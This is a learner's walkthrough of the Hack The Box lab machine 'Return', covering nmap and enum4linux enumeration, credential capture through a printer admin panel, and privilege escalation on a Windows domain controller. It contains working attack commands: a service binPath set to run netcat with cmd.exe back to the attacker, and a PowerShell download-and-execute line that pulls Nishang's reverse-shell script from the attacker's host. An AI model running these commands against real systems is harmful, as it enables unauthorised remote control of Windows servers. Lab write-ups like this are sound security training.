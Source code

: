 # Return

This is my walk-through of the machine located at: [https://app.hackthebox.com/machines/Return](https://app.hackthebox.com/machines/Return).

nmap scan: `nmap -T4 -A 10.10.11.108 -oN return.nmap`

```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-20 15:01 EST
Nmap scan report for 10.10.11.108
Host is up (0.034s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-12-20 20:26:53Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=12/20%OT=53%CT=1%CU=36731%PV=Y%DS=2%DC=T%G=Y%TM=61C0E1
OS:40%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=105%TI=I%CI=I%II=I%SS=S%TS
OS:=U)OPS(O1=M54DNW8NNS%O2=M54DNW8NNS%O3=M54DNW8%O4=M54DNW8NNS%O5=M54DNW8NN
OS:S%O6=M54DNNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y
OS:%DF=Y%T=80%W=FFFF%O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD
OS:=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%
OS:S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD
OS:=Z)

Network Distance: 2 hops
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 25m06s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-12-20T20:27:06
|_  start_date: N/A

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   39.17 ms 10.10.14.1
2   33.44 ms 10.10.11.108

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.10 seconds
```

I then went on the IP Address and found this page:

![](<../../.gitbook/assets/image (342) (1) (1) (1).png>)

I then ran **gobuster** on the IP Address: `gobuster dir -u 10.10.11.108 -w directory-list-2.3-big.txt -t 60`. I ended up with the following, which wasn't very helpful:

![](<../../.gitbook/assets/image (326) (1).png>)

I then tried found the nmap command to enumerate ldap: `nmap -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' 10.10.11.108`.The nmap script was taking a while, so I went to the walk-through to see where I had gotten off of track. I found out that I should use **enum4linux** in order to enumerate for SMB: `enum4linux -a 10.10.11.108`. I then found this information:

![](<../../.gitbook/assets/image (329) (1) (1) (1).png>)

The walk-through mentioned that we should enter our own IP Address in the **Server Address** section on the website. Using that I got a shell:

![](<../../.gitbook/assets/image (345) (1) (1) (1) (1) (1).png>)

The walk-through then mentioned using the **evil-winrm** tool. I learned that, while I was able to overwrite the password for the svc-printer user, it would be overwritten by its own system. The walk-through pointed out that the password would be what is shown by the output of netcat connection previously:

![](<../../.gitbook/assets/image (334) (1) (1) (1) (1).png>)

Looking around, I was able to find the **user.txt** flag in the Desktop of the svc-printer user:

![](<../../.gitbook/assets/image (335) (1) (1) (1).png>)

I am not too familiar with Windows commands, so the walk-through mentioned running the `net user svc-printer` command:

![](<../../.gitbook/assets/image (344) (1) (1) (1) (1).png>)

Again, I had to view the write-up to see where to go from here. From the commands, you are uploading netcat onto the system, and then configuring netcat to be run and connect to your machine:

`upload /usr/share/windows-resources/binaries/nc.exe`&#x20;

`sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe <YOUR-IP> 1234"`. After having a netcat listener setup on another tab, I was able to get a connection:

![](<../../.gitbook/assets/image (330) (1) (1) (1).png>)

The official walk-through got me to become root, however, I was not able to do anything on the machine. I then found this [write-up](https://readysetexploit.wordpress.com/2021/10/12/hack-the-box-return/) that helped me setup a proper shell. Here are the commands I used:

```
Download the Nishang script for Powershell:
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

Have a netcat listener opened in another teminal window (using rlwrap):
rlwrap nc -lvnp <PORT>

Have a python3 http server online on another teminal window:
sudo python3 -m http.server 80

Upload that to the server with the evil-winrm terminal:
sc.exe config vss binPath="C:\Windows\System32\cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.10/Invoke-PowerShellTcp.ps1')"

Restart the executable:
sc.exe stop VSS
sc.exe start VSS
```

I was then able to get the root.txt file:

![](<../../.gitbook/assets/image (332) (1) (1) (1).png>)
